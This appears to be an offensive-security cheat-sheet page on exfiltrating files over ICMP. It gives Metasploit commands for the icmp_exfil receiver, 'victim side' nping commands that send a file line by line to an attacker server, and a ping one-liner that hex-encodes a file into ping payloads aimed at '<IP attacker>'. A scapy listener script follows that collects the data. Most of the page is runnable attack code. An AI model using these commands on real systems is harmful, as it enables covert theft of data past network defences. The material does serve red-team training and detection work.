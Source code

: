 # ICMP

## ICMP Exfiltration Service (Metasploit)

{% embed url="http://www.nocowsecurity.com/blog/2013/5/30/icmp-exfiltration" %}

This module is designed to provide a server-side component to receive and store files exfiltrated over ICMP echo request packets

```
msf > use auxiliary/server/icmp_exfil
msf auxiliary(icmp_exfil) > show actions
    ...actions...
msf auxiliary(icmp_exfil) > set ACTION < action-name >
msf auxiliary(icmp_exfil) > show options
    ...show and set options...
msf auxiliary(icmp_exfil) > run
```

on victim side:

```
nping --icmp <IP address of Metasploit server> --data-string ^BOF -c1
for /f "tokens=*" %%a in (<filename>) do nping --icmp <IP address of Metasploit server> --data-string "%%a\x0D" -c1
nping --icmp <IP address of Metasploit server> --data-string ^EOF -c1
sed 's/\\x0D/\n/g' <filename>
```

{% embed url="https://youtu.be/y_qBPaKdU7U" %}

## QueenSono

{% hint style="info" %}
* only work on Linux (due to the use of golang net icmp package)
* need `cap_net_raw capabilities`
{% endhint %}

{% embed url="https://github.com/ariary/QueenSono" %}

## Ping

```
#In order to exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probably increase this until 16)
```

```
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
            print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```





